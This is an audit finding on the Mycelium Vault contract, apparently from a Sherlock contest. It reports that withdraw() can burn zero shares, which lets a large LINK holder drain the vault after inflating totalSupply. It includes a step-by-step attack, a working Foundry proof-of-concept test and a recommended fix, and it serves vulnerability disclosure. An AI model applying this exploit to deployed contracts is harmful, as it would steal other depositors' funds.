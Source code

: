 joestakey

high

# withdraw() can burn 0 shares, resulting in user stealing LINK from Vault

## Summary
`withdraw()` transfers `_amount` of `LINK` to the caller, regardless of the amount being burnt in `_burnShares()`. If the `totalSupply()` is high enough, a user can drain the `LINK` in `Vault` without burning any share.

## Vulnerability Detail
`deposit()` calls
```solidity
_burnShares(msg.sender, convertToShares(_amount));
``` 
which calls `convertToShares(_amount)` to determine how many shares must be burnt.
`convertToShares` uses `totalSupply()`, ie all the LINK that is held in the `Vault` -  and the plugins.
By transferring a sufficient amount of `LINK` to the `Vault`, a user can make `withdraw()` calls that will not burn any share, effectively stealing `LINK` from the `Vault`.

## Impact
A user can technically drain all the `LINK` in the `Vault`. But the amount of `LINK` they need to deposit before the attack is:
- proportional to the amount already present in the `Vault` (ie as more deposits happen, the more funds the attack will require).
- much larger than the amount of LINK in the Vault (because of `STARTING_SHARES_PER_LINK`).

While still profitable, it can only be performed by a `LINK` "whale".

## Proof Of Concept

- Alice calls `deposit(1e15)`, depositing `1e15` unit of `LINK`. She receives `1000` shares.
- Bob calls `deposit(1e15)`, depositing `1e15` unit of `LINK`. He receives `1000` shares.
- Bob transfers `2e18 LINK` to the `Vault` using the `ERC20.transfer()` method.
- Bob calls `withdraw(1)` to redeem shares.
- `totalSupply = 2e18 + 2e15 > 1 * totalShares == 2e18`. So the amount of shares being burnt is `0`.
- Bob receives `1` LINK, but has not burnt any share. He can repeat the process to drain the Vault of its `LINK`, effectively stealing from other users.

Run this test - you can add it to `deposit.t.sol`:

```solidity
address Alice = address(1);
address Bob = address(2);
function testSmallWithdrawDrainVault() public {
    uint256 amount = 1e15;

    vm.startPrank(Alice);
    link.mint(Alice, 10e18);
    link.mint(Bob, 10e18);
    
    link.approve(address(vault), 10e18);

    uint256 balanceAliceBefore = link.balanceOf(Alice);
    //Alice deposits 1e15 LINK
    vault.deposit(amount);

    assertEq(vault.totalSupply(), amount);
    assertEq(vault.balanceOf(Alice), amount);
    assertEq(vault.shares(Alice), amount * vault.STARTING_SHARES_PER_LINK());
    vm.stopPrank();

    // Bob deposits 1e15 LINK in the Vault
    vm.startPrank(Bob);
    link.approve(address(vault), 10e18);
    vault.deposit(amount);

    assertEq(link.balanceOf(address(vault)), 2 * amount);
    assertEq(vault.totalSupply(), 2 * amount);
    assertEq(vault.balanceOf(Alice), vault.balanceOf(Bob));
    //Bob transfers 2e18 LINK to the Vault
    link.transfer(address(vault), 2* 1e18);
    //Bob calls withdraw
    uint256 balanceBobBefore = link.balanceOf(Bob);
    uint256 sharesBobBefore = vault.shares(Bob);
    vault.withdraw(1);
    uint256 balanceBobAfter = link.balanceOf(Bob);
    // Bob received 1 unit of LINK
    assertEq(balanceBobAfter - balanceBobBefore, 1);
    // Bob did not burn any share
    assertEq(vault.shares(Bob), sharesBobBefore);
    vm.stopPrank();
}
```
## Code Snippet
https://github.com/sherlock-audit/2022-10-mycelium/blob/main/mylink-contracts/src/Vault.sol#L159-L161

## Tool used
Manual Review, Foundry

## Recommendation
In `withdraw()`, add a check to ensure there is a non-zero amount of shares being burnt.

```diff
-159:         _burnShares(msg.sender, convertToShares(_amount));
+             uint256 sharesToBurn = convertToShares(_amount);
+             require(sharesToBurn >0, "shares amount must be non zero")
+             _burnShares(msg.sender, sharesToBurn);
```